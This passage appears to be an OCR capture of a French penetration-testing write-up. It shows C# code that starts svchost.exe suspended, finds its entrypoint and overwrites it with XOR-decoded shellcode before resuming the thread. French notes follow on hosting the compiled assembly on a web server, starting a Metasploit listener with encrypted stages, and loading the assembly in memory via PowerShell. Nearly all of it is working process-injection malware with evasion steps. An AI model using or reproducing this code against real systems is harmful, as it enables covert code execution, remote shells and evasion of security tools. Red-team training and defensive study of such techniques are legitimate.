 ```csharp
                false, CREATE_SUSPENDED, IntPtr.Zero, null, ref sInfo, out pInfo);
            Console.WriteLine($"Started 'svchost.exe' in a suspended state with PID {pInfo.ProcessId}. Success: {cResult}.");
            ProcessBasicInfo pbInfo = new ProcessBasicInfo();
            uint retLen = new uint();
            long qResult = ZwQueryInformationProcess(pInfo.hProcess, PROCESSBASICINFORMATION, ref pbInfo, (uint)(IntPtr.Size * 6), ref retLen);
            IntPtr baseImageAddr = (IntPtr)((Int64)pbInfo.PebAddress + 0x10);
            Console.WriteLine($"Got process information and located PEB address of process at {"0x" + baseImageAddr.ToString("x")}. Success: {qResult == 0}.");
                     
            byte[] procAddr = new byte[0x8];
            byte[] dataBuf = new byte[0x200];
            IntPtr bytesRW = new IntPtr();
            bool result = ReadProcessMemory(pInfo.hProcess, baseImageAddr, procAddr, procAddr.Length, out bytesRW);
            IntPtr executableAddress = (IntPtr)BitConverter.ToInt64(procAddr, 0);
            result = ReadProcessMemory(pInfo.hProcess, executableAddress, dataBuf, dataBuf.Length, out bytesRW);
            Console.WriteLine($"DEBUG: Executable base address: {"0x" + executableAddress.ToString("x")}.");
         
            uint e_lfanew = BitConverter.ToUInt32(dataBuf, 0x3c);
            Console.WriteLine($"DEBUG: e_lfanew offset: {"0x" + e_lfanew.ToString("x")}.");
       
            uint rvaOffset = e_lfanew + 0x28;
            Console.WriteLine($"DEBUG: RVA offset: {"0x" + rvaOffset.ToString("x")}.");
          
            uint rva = BitConverter.ToUInt32(dataBuf, (int)rvaOffset);
            Console.WriteLine($"DEBUG: RVA value: {"0x" + rva.ToString("x")}.");
           
            IntPtr entrypointAddr = (IntPtr)((Int64)executableAddress + rva);
            Console.WriteLine($"Got executable entrypoint address: {"0x" + entrypointAddr.ToString("x")}.");
           
            //J'ai chiffré le shellcode avec du XOR, et je le déchiffre ici
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)((uint)buf[i] ^ 0xea); 
            }
           
           
            result = WriteProcessMemory(pInfo.hProcess, entrypointAddr, buf, buf.Length, out bytesRW);
            Console.WriteLine($"Overwrote entrypoint with payload. Success: {result}.");
         
            uint rResult = ResumeThread(pInfo.hThread);
            Console.WriteLine($"Triggered payload. Success: {rResult == 1}. Check your listener!");
        }
    }
}
```
- Une fois compilé, on host ça sur un petit serveur web. Je l'ai nommé "Assembly".
- On prépare metasploit pour l'écoute. On force le chiffrement des différents stages.
- Avec PowerShell, on charge l'assembly en mémoire et on exécute la methode runner définie dans l'assembly.
